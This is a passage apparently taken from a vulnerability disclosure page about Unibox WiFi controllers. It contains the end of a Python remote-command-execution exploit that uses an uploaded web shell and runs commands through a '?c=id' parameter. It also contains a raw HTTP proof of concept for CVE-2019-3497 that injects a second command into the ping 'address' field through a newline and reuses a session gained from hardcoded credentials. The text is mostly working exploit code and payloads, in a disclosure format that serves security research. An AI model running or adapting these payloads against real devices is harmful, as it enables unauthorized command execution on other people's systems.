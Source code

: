 ```python
				)
	data = response.text
	payload =  re.findall(r'<sc.*>.*\:\\n(.*?)\"\);<\/sc.*>',data)[0]
	print "[I] Payload Url \nUrl: %s\n" %(payload)
	response = requests.get(payload+'?c=id')
	print response.text	
	print "[I] Done"

if __name__=='__main__':
	print 'Unibox 2.x Remote Command Execution via Arbitrary file upload\n'
	if len(sys.argv) < 1:
		print 'Missing rhost'
		os._exit(1)
	exploit(sys.argv[1])
```
![poc_2](/assets/images/unibox/2.png)


> POC - CVE-2019-3497

```markdown
POST /tools/ping HTTP/1.1
Host: unibox_0.x_2.x
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 86
Cookie: PHPSESSID=<obtained_via_hardcoded_credentials>
Connection: close
Upgrade-Insecure-Requests: 1

pingaction=1&address=127.0.0.1%0asudo /usr/local/unibox-0.9/scripts/exeCommand.sh%20id
```

![poc_1](/assets/images/unibox/1.png)


[0]: http://wifi-soft.com/unibox-controller/